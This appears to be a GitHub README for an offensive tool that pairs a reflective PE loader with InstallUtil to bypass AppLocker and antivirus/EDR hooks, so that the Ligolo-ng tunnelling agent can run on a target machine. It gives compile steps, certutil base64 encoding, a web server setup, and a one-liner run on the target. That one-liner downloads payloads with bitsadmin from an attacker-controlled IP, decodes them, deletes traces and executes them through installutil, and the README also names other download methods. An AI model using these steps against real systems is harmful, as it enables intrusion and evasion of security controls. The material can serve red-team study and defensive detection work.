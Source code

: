 # ApplockerBypassExternalBinary #

The original project can reflectively load and execute PEs locally and remotely bypassing EDR hooks. This modified version integrates the use of InstallUtil, allowing it to bypass security configurations like AppLocker for executing various binaries, including tools like Ligolo-ng.

This project closely resembles the well-known Invoke-ReflectivePEInjection.ps1, but being built in C# made it easier to implement code specifically designed for antivirus evasion. It includes basic evasion techniques that can be further adapted to bypass more recent antivirus solutions.

This setup focuses on executing Ligolo as a functional proof of concept (PoC) but can be easily modified to run any binary, allowing for flexible use with different tools as needed.

# Ligolo-ng Setup and Execution Guide

## 1. Setup Ligolo-ng Agent
To configure and compile the Ligolo-ng agent:

### Step 1: Modify the Ligolo-ng agent's main file
Open and edit main.go to adjust the settings as needed : **/ligolo-ng/cmd/agent/main.go**

![image](https://github.com/user-attachments/assets/3e9dfb54-edb7-420b-83a7-f6679e9d4831)


### Step 2: Compile the agent
Use the following command to compile:
```
GOOS=windows go build -o agent.exe cmd/agent/main.go
```

## 2. Prepare ApplockerBypassExternalBinary
### Step 1: Add required reference
Add the System.Configuration.Install reference to the project.

### Step 2: Compile the project
Ensure the project is compiled as **Release** and **x64** for compatibility.

### Step 3: Encode the executable with certutil
Use certutil to convert the .exe to Base64, allowing for easier transfer:
```
certutil -encode .\ApplockerBypassExternalBinary.exe AppLockerBypassLigolo.txt
```

## 3. Setup Your Web Server

Before executing the download on the target machine, set up a web server to host the required files:

- **Option 1**: Use Apache  
  Apache is a reliable choice and works well with all download methods, including `bitsadmin`.

- **Option 2**: Use Python’s SimpleHTTPServer (for quick setups)  
  Run the following command in the directory with your files:
  ```bash
  python -m http.server 80
  ```
  
## 4. Execution on the Target Machine
Use the following one-liner command on the target machine:
```
cmd /c bitsadmin /Transfer myJob http://192.168.xxx.xxx/ligolo-agent.exe C:\users\public\try-agent.exe && cmd /c bitsadmin /Transfer myJob http://192.168.xxx.xxx/pyhttp/AppLockerBypassLigolo.txt C:\users\public\enc.txt && certutil -decode C:\users\public\enc.txt C:\users\public\ligolo.exe && del C:\users\public\enc.txt && C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=true /U C:\users\public\ligolo.exe
```
Bitsadmin is used as a download method, though it has its pros and cons—such as being deprecated on newer Windows versions and potentially limited by network configurations. Alternatively, certutil can serve as a reliable option for downloading files in many environments. Other flexible methods include curl (available on Windows 10+), or PowerShell’s built-in capability, such as (New-Object System.Net.WebClient).DownloadFile("URL", "path"), which offers compatibility across a wide range of systems.

## 5. Result

### Classic execution
![image](https://github.com/user-attachments/assets/08d49e56-7398-41e4-ae8d-de22a250cdbe)

![image](https://github.com/user-attachments/assets/abef6ad4-9e40-434c-ae7c-21531a271375)


### Using our one liner
![image](https://github.com/user-attachments/assets/b2302bd1-f0cd-4d54-bc06-c158c185709c)

![image](https://github.com/user-attachments/assets/9121676e-9a5f-4419-91cf-92b2d6693c45)



----------------------------------------------------------------------------------------

- I haven't found any ressource for bypassing applocker with ligolo-ng, so here it is.

- Huge thanks to @cpu0x00 for https://github.com/cpu0x00/SharpReflectivePEInjection

	

	
